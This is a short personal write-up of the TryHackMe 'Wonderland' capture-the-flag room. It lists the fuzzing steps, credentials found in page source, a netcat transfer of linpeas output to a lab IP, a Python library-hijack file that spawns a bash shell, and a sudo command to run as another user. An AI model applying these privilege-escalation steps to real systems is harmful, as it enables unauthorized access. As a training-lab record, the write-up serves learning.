 # 41. Wonderland 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | linux

**Notes :**




## Gaining Access 😉
- ffuf FUZZing with common.txt
- as hint suggests, followed /r/a/b/b/i/t. got ssh username and password in source code
- just subdirectory fuzzing things



## Maintaining Access 🥷
- run linpeas
- downloaded output with nc [[#Important commands 🔥]]1
- python file found which imports ramdom
- user can run python3.6 as rabbit
- created a ramdom.py in home dir which contains [[#Important commands 🔥]]2 this code
- after searching for teaparty got sourcecode
- date is called without absolute path
- 


## Important commands 🔥
1. nc share: from reciever
	```
	nc -lvp 4444 > linpeas
	```
	sender
	```
	nc 10.9.229.254 4444 -w 3 < linpeas
	```
2. ramdom.py
	```python
	import os os.system("/bin/bash")
	```
3. running other user
	```
	sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
	```
	
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- something


--------------------------------
**By Nibras Muhammed** 🤓🖥️